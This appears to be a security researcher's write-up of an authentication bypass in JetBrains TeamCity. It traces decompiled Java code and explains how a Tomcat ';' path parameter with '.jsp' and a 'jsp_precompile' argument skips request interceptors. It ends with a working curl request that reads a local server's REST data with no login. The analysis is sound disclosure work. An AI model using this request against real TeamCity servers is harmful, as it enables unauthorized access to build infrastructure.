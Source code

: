 **File**: *TeamCity/fern/jetbrains/buildServer/controllers/interceptors/RequestInterceptors.java*
{% highlight java lineos %}
158:    private boolean requestPreHandlingAllowed(@NotNull HttpServletRequest request) {
159:       if (WebUtil.isJspPrecompilationRequest(request)) {
160:          return false;
161:       } else {
162:          return !this.myPreHandlingDisabled.matches(WebUtil.getPathWithoutContext(request));
163:       }
164:    }
{%endhighlight%}

So `requestPreHandlingAllowed` internally calls `WebUtil.isJspPrecompilationRequest`, which from the look of it, checks if the request is a precompiled JSP. Let's explore the function in detail:

**File**: *TeamCity/fern/jetbrains/buildServer/web/util/WebUtil.java*
{% highlight java lineos %}
1649:   public static boolean isJspPrecompilationRequest(@NotNull final HttpServletRequest request) {
1650:     final String uri = StringUtil.notNullize(request.getRequestURI());
1651:     return (uri.endsWith(".jsp") || uri.endsWith(".jspf")) && request.getParameter("jsp_precompile") != null;
1652:   }
{%endhighlight%}

The method reads request path through `getRequestURI()` to check if it ends with ".jsp" or ".jspf" and also checks if the request contains a GET parameter named `jsp_precompile`, if so, the function returns true, essentially leading to the original if condition returning true, skipping the entire else part where interceptors are invoked.

Tomcat supports the use of `;` which is considered a parameter of the path itself. Ex: *<u>https://example.com/rest/abc;a=b?param=123</u>*. Here `;a=b` is considered a parameter for the path itself ! We can abuse the functionality here since the `WebUtil.isJspPrecompilationRequest` reads the requestURI directly and runs `endsWith()` to determine if it's a pre-compiled request.

## Exploit

So we can try and hit an endpoint which requires authentication but we can pass `;.jsp` at the end along with adding a GET parameter `jsp_precompile=1` should bypass the authentication and give us the results.

{% highlight bash lineos %}
a0xnirudh@X1 ~/Downloads/teamcity $ curl http://localhost:8111/app/rest/projects;.jsp?jsp_precompile=1

<?xml version="1.0" encoding="UTF-8" standalone="yes"?><projects count="2" href="/app/rest/projects;.jsp?jsp_precompile=1"><project id="_Root" name="&lt;Root project&gt;" description="Contains all other projects" href="/app/rest/projects/id:_Root" webUrl="http://localhost:8111/project.html?projectId=_Root"/><project id="Test" name="test" parentProjectId="_Root" href="/app/rest/projects/id:Test" webUrl="http://localhost:8111/project.html?projectId=Test"/></projects>%
{%endhighlight%}

